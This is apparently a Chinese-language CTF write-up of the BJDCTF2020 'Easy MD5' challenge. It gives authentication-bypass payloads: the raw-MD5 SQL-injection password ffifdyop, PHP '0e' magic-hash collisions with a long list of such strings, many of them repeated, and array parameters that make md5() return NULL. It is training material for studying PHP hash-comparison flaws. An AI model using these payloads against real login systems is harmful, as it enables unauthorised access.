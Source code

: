 # [BJDCTF2020]Easy MD5
TAG:PHP MD5 
## 解题过程：
![20210105110615](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105110615.png)  
题目界面只有一个密码输入框，根据题目名称提示MD5尝试输入MD5万能密码:```ffifdyop```  
成功到达第二层  
![20210105111405](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105111405.png)  
查看页面源代码获取信息  
![20210105111558](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105111558.png)  
这里依然是MD5问题，利用PHP处理MD5的"特性",传递参数```a=s878926199a&b=s155964671a```  
成功达到第三层  
![20210105111934](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105111934.png)  
此处依然利用PHP的MD5"特性"，post传入参数：```param1[]=1&param2[]=2```，成功获取flag
![20210105112047](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210105112047.png)  
## 题目分析：  
此题目考查了一些PHP安全"特性"  
+ MD5万能密码```ffifdyop```  
  
在未加盐的情况下，```ffifdyop```经过```md5($password,true)```过后恰好结果是```'or'6�]��!r,��b```  
即最后组成的sql语句是
```
$sql="select password from users where password=''or'<xxx>'"
```
使查询结果永真，直接登陆  
+ PHP MD5函数漏洞   
  
PHP在处理哈希字符串时后，会把0E开头的哈希值解释为0。所以如果两个值通过MD5后值都已0E开头，就会相等  
一些MD5后为0E开头的字符串：
```
QNKCDZO
0e830400451993494058024219903391
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```  
  
+ PHP MD5函数漏洞(无法处理数组)  
PHP的MD5函数无法处理数组，会导致返回值为NULL，此时就形成了NULL=NULL，绕过了检测  
